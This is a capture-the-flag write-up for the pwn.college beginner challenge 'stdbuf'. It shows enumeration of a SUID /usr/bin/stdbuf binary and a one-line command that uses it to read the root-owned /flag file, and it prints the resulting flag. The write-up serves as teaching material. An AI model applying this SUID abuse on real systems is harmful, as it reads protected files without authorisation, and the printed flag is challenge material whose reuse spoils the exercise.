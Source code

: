 # Challenge Name: stdbuf
**Category**: Program Misuse  
**Platform**: pwn.college  
**Difficulty**: Begineer
**Date**: 2025-07-15  
**Author**: Himanshu Parate

---

## 🧠 Summary:
The challenge abuses a SUID bit set on `/usr/bin/stdbuf`, allowing an unprivileged user to read the root-owned flag file at `/flag`.

---

## 🔍 Enumeration

```bash
ls -l /usr/bin/stdbuf
```

output:
```
-rwsr-xr-x 1 root root 47480 Sep  5  2019 /usr/bin/stdbuf
```

-The `s` in `-rws` indicates it's a SUID binary.
-`stdbuf` runs with **root privileges**.

## 🚀 Exploitation

The `stdbuf`  command in Linux is used to control buffering behavior of standard input (stdin), output (stdout), and error (stderr) for another command.

```bash
stdbuf -o0 cat /flag
```

Output:
```
pwn.college{0yrk_SqiqllhJjs5dX0aI_peczm.dJTNxwSM0IzMyEzW}
```

      

